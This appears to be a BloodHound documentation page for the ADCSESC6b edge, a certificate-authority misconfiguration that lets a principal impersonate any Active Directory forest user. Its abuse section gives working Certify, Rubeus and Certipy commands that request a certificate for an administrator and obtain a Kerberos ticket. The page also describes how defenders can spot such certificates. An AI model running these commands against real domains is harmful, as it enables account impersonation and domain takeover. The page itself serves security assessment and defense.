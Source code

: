---
title: ADCSESC6b
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



They also have enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of any published certificate template. This setup allows an attacker principal to obtain a malicious certificate as another principal. There is an affected Domain Controller configured to allow weak certificate mapping enforcement, which enables the attacker principal to authenticate with the malicious certificate and thereby impersonating any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify (2.0) to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```cmd
Certify.exe request --ca rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA --template ESC6 --upn ForestRootDA
```

The certificate PFX is printed to the console in a base64-encoded format.

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: With Rubeus, use the certificate to authenticate to the domain and request a TGT, specifying the identity you intend to impersonate:

```cmd
Rubeus asktgt /user:ForestRootDA /domain:forestroot.com /certificate:<cert base64> /ptt
```

Step 3 (optional): Verify the TGT by listing it with klist:

```cmd
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)  
Destination: [Domain](/resources/nodes/domain)  
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
